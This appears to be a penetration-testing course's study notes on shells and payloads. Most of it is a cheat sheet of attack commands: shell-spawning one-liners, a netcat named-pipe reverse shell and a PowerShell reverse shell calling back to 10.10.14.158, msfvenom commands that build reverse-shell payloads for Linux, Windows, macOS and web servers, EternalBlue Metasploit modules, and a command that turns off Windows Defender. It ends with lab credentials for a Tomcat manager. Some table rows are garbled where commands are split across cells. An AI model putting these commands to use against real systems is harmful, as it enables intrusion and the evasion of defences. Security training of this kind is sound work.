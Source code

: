 ```yaml
---
description: "A\_`shell`\_is a program that provides a computer user with an interface to input instructions into the system and view text output (Bash, Zsh, cmd, and PowerShell, for example)."
---
```


# Shells & Payloads

| Shell Type    | Description                                                                                                                                                                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Reverse shell | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                  |
| Bind shell    | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                   |
| Web shell     | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |

Non-Staged vs Staged Payloads\
![](.gitbook/assets/Untitled.png)

Interactive shells

| python -c 'import pty; pty.spawn("/bin/sh")'                           | Python command used to spawn an interactive shell on a linux-based system                        |
| ---------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| /bin/sh -i                                                             | Spawns an interactive shell on a linux-based system                                              |
| perl —e 'exec "/bin/sh";'                                              | Uses perl to spawn an interactive shell on a linux-based system                                  |
| ruby: exec "/bin/sh"                                                   | Uses ruby to spawn an interactive shell on a linux-based system                                  |
| Lua: os.execute('/bin/sh')                                             | Uses Lua to spawn an interactive shell on a linux-based system                                   |
| awk 'BEGIN {system("/bin/sh")}'                                        | Uses awk command to spawn an interactive shell on a linux-based system                           |
| find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\; | Uses find command to spawn an interactive shell on a linux-based system                          |
| find . -exec /bin/sh \\; -quit                                         | An alternative way to use the find command to spawn an interactive shell on a linux-based system |
| vim -c ':!/bin/sh'                                                     | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"      |

```
vim
:set shell=/bin/sh
:shell
```

vim escape

## **Laudanum, One Webshell to Rule Them All**

location `/usr/share/laudanum`

## **Antak Webshell**

location `/usr/share/nishang/Antak-WebShell`

| Commands                                                                                                                                            | Description                                                                                                                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:10.129.x.x /u:htb-student /p:HTB\_@cademy\_stdnt!                                                                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                         |
| env                                                                                                                                                 | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                  |
| sudo nc -lvnp \<port #>                                                                                                                             | Starts a netcat listener on a specified port                                                                                                                                                 |
| nc -nv \<ip address of computer with listener started>\<port being listened on>                                                                     | Connects to a netcat listener at the specified IP address and port                                                                                                                           |
| rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f                                                                                                             | /bin/bash -i 2>&1                                                                                                                                                                            |
| powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1                |
| Set-MpPreference -DisableRealtimeMonitoring $true                                                                                                   | Powershell command using to disable real time monitoring in Windows Defender                                                                                                                 |
| use exploit/windows/smb/psexec                                                                                                                      | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec                                                                  |
| shell                                                                                                                                               | Command used in a meterpreter shell session to drop into a system shell                                                                                                                      |
| msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf                                                      | MSFvenom command used to generate a linux-based reverse shell stageless payload                                                                                                              |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe                                                        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                            |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho                                                    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                        |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp                                                   | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                            |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp                                                      | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                            |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war                                                      | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                        |
| use auxiliary/scanner/smb/smb\_ms17\_010                                                                                                            | Metasploit exploit module used to check if a host is vulnerable to ms17\_010                                                                                                                 |
| use exploit/windows/smb/ms17\_010\_psexec                                                                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17\_010                                                                     |
| use exploit/linux/http/rconfig\_vendors\_auth\_file\_upload\_rce                                                                                    | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6                                                                      |
| python -c 'import pty; pty.spawn("/bin/sh")'                                                                                                        | Python command used to spawn an interactive shell on a linux-based system                                                                                                                    |
| /bin/sh -i                                                                                                                                          | Spawns an interactive shell on a linux-based system                                                                                                                                          |
| perl —e 'exec "/bin/sh";'                                                                                                                           | Uses perl to spawn an interactive shell on a linux-based system                                                                                                                              |
| ruby: exec "/bin/sh"                                                                                                                                | Uses ruby to spawn an interactive shell on a linux-based system                                                                                                                              |
| Lua: os.execute('/bin/sh')                                                                                                                          | Uses Lua to spawn an interactive shell on a linux-based system                                                                                                                               |
| awk 'BEGIN {system("/bin/sh")}'                                                                                                                     | Uses awk command to spawn an interactive shell on a linux-based system                                                                                                                       |
| find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\;                                                                              | Uses find command to spawn an interactive shell on a linux-based system                                                                                                                      |
| find . -exec /bin/sh \\; -quit                                                                                                                      | An alternative way to use the find command to spawn an interactive shell on a linux-based system                                                                                             |
| vim -c ':!/bin/sh'                                                                                                                                  | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                  |
| ls -la \<path/to/fileorbinary>                                                                                                                      | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| sudo -l                                                                                                                                             | Displays the commands that the currently logged on user can run as sudo                                                                                                                      |
| /usr/share/webshells/laudanum                                                                                                                       | Location of laudanum webshells on ParrotOS and Pwnbox                                                                                                                                        |
| /usr/share/nishang/Antak-WebShell                                                                                                                   | Location of Antak-Webshell on Parrot OS and Pwnbox                                                                                                                                           |

## Assessment

access-creds.txt found in foothold

```jsx
to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm

Change the passwords soon..
```

[http://172.16.1.11:8080/manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=5D087425CE273DBDB0B3FD7EED95E42C](http://172.16.1.11:8080/manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=5D087425CE273DBDB0B3FD7EED95E42C)

